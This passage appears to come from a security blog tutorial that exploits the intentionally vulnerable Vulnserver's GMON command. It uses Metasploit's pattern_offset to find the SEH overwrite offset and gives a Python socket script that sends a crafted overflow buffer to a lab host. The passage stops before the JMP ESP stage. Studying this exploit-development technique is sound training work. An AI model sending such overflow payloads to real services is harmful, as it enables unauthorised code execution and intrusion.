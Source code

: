 And run it:

<div class="imgblock">

![Pattern offset](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331142/blog/vulnserver-gmon/pattern1_pds6g9.webp)

</div>

As you can see, the handler was overwritten with `346F4533`. To find the
offset in which the `SEH` handler gets overwritten, we can use
`pattern_offset.rb`:

``` console
$ msf-pattern_offset -q 346F4533
[*] Exact match at offset 3551
```

Great, the offset on which the `SEH` handler starts to be overwritten is
`3551`.

To check that offset, we can inject:

1. 3551 `A` characters

2. 4 `B` characters

3. 5000 - 3551 - 4 = 1445 `C` characters

If the `SEH` handler gets overwritten with our `B` buffer, we got it
right. This is our updated exploit:

``` python
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'A' * 3551 +
    b'B' * 4 +
    b'C' * 1445
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
```

And the result:

<div class="imgblock">

![Right offset](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331142/blog/vulnserver-gmon/offset1_sosm3e.gif)

</div>

Awesome\!

Now, what would normally happen is to find a `JMP ESP` instruction.
